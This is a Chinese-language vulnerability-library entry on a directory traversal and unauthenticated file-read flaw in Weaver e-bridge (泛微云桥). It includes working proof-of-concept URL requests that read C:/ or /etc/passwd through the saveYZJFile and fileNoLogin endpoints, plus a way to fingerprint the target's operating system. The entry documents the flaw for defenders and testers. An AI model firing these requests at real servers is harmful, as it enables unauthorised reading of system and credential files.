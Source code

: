 ```yaml
---
title: '泛微云桥e-bridge 目录遍历/文件读取漏洞'
date: Mon, 21 Sep 2020 01:12:13 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞信息:

泛微云桥是一个为了满足用户提出的阿里钉钉与泛微OA集成需泛微0A云桥e-bridge 其 /wxjsapi/saveYZJFile 接口可以读取文件内容并保存，而后可通过/file/fileNoLogin/{id}，读取文件内容。

#### 影响范围:

主要影响 2018-2019 版本

#### 漏洞复现:

如果使用POC回显**`"无法验证您的身份！"`**证明改漏洞已被修复
 **POC中，当downloadUrl的路径为文件夹的时候结果为目录遍历  linux windows 通用**
 Windows POC：

```html
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt #查看页面中的id值
```

![img](泛微云桥e-bridge-目录遍历文件读取漏洞.assets/1913098-20201121233209437-1297218164.png)

```
/file/fileNoLogin/<id> #访问文件接口，根据上一步获取的id对文件内容进行读取
```

![img](泛微云桥e-bridge-目录遍历文件读取漏洞.assets/1913098-20201121233253572-1802764402.png)

如果提示`msg "/C: (No such file or directory)" `就表示为Linux系统（表示不存在C盘）
 Linux POC：

```html
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
/file/fileNoLogin/<id> #访问文件接口，根据上一步获取的id对文件内容进行读取
```

### 04 实例

Linux系统主目录（根目录）
 ![img](泛微云桥e-bridge-目录遍历文件读取漏洞.assets/1913098-20201121234212131-625392001.png)
 Linux中/ect/passwd文件
 ![img](泛微云桥e-bridge-目录遍历文件读取漏洞.assets/1913098-20201121234407372-1517558070.png)

#### 修复方案:

尽快升级到最新版本
